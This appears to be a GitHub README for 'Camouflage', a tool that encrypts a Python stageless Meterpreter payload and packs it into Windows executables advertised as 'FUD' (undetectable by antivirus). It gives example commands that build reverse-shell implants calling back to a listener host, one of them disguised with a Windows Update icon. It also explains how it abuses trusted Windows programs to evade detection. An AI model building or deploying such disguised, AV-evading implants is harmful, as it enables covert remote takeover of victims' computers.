

# 𝕮𝖆𝖒𝖔𝖚𝖋𝖑𝖆𝖌𝖊
### ρутнση stageless мєтєяρяєтєя ¢яуρтєя

## Features
- Supports TCP/HTTP/HTTPS python stageless meterpreter.
- Wraps the python meterpreter with an encryption stub.
- Converting the final stub to C code then compiling it to a native executable, or bundling it with an embedded python version in one executable. 
- Produces FUD executables.

## Requirements
- Python3.x
- Windows OS
- MSVC Toolchain (optional)

## Installation

#### This version works on python3 and only supports Windows OS for now.
`python -m pip install -r requirements.txt`

## Examples

#### `python .\camouflage.py -p tcp -H 192.168.140.102:8080 --packer compile -o Final --icon C:\Windows\System32\WindowsUpdateImportant.ico`
#### `python .\camouflage.py -p https -H 192.168.140.102:443 --srw 3 --ua "Meterpreter Test"`

## How it works
#### The script begins by patching "meterpreter.py" with the provided parameters by the user, encrypting the script starts with base64 encoding (first cycle) then xor encrypting with an 8-Byte key then base64 encoding again (second cycle), the result is saved to a stub, the stub then does the opposite to execute the original code, there are two options to pack the script, either by converting it to C and compiling it to a native binary via Nuitka (harder to Reverse Engineer) or bundling the script with an embedable python version using a Windows legacy program called IEXPRESS (more OPSEC) because the scripts gets executed by "pythonw.exe" which is a trusted program by Windows, rather than using flagged methods of bundling (pyinstaller, py2exe, ..etc).
#### At the moment the program only works on Windows because the way it is compiled and bundled, in future releases cross compiling can be added to include Linux support.   

## Note
Add `meterpreter.py` to execlusion list or turn off AV.

## Demo
#### Windows 11 x64

